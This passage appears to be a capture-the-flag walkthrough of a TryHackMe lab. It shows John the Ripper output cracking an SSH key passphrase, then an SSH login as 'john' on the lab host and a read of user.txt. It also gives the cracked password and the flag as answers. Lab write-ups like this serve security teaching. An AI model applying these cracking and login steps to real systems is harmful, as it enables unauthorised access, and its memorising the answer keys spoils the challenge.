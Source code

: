 ```
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2023-12-07 10:04) 4.000g/s 290496p/s 290496c/s 290496C/s romeo23..renatito
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
### Answer
```
rockinroll
```

&nbsp;

### user.txt
- Let's change the permissions of the `id_rsa` file.
```
$ chmod 700 id_rsa 
```
- Now that we know that the password for `john` is `rockinroll`, let's login through SSH.
```
$ ssh -i id_rsa john@10.10.30.186
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec  7 04:40:36 UTC 2023

  System load:  0.0                Processes:           102
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 36%                IP address for eth0: 10.10.30.186
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```
- Let's read the `user.txt` file.
```
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```
### Answer
```
THM{a_password_is_not_a_barrier}
```
